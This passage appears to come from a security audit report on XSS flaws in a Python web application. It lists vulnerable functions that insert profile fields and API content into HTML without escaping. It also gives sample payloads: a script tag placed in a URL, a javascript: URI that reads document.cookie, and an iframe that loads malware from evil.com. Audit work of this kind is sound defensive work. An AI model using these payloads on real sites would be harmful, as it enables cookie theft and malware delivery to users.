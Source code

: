 #### Attack Vector:
- URL: `/user/<script>alert('XSS')</script>`
- Impact: JavaScript execution in error page

---

### 5. Stored XSS - User Profiles

**Vulnerability Type:** Stored XSS in Profile Fields  
**Severity:** **CRITICAL**  
**CVSS 3.1 Score:** 8.5 (High)  

#### Location Details:
- **Function:** `user_profile()`
- **Line Numbers:** 255-264 (bio, website, location fields)
- **Vulnerable Code:**
```python
content = f"""
    <p><strong>Bio:</strong> {profile[2] or 'No bio provided'}</p>
    <p><strong>Website:</strong> <a href="{profile[3] or '#'}">{profile[3] or 'Not specified'}</a></p>
    <p><strong>Location:</strong> {profile[4] or 'Not specified'}</p>
"""
```

#### Attack Vectors:
1. **JavaScript URI in Website:**
   - Payload: `javascript:alert(document.cookie)`
   - Impact: Code execution on click

2. **HTML Injection in Bio:**
   - Payload: `<iframe src="//evil.com/malware"></iframe>`
   - Impact: Malware distribution

---

### 6. DOM-based XSS - API Preview

**Vulnerability Type:** DOM-based XSS via API  
**Severity:** **HIGH**  
**CVSS 3.1 Score:** 7.5 (High)  
**CWE ID:** CWE-79  

#### Location Details:
- **Function:** `preview_content()`
- **Line Number:** 316
- **Vulnerable Code:**
```python
return jsonify({
    'success': True,
    'preview': f'<div class="preview">{content}</div>'
})
```
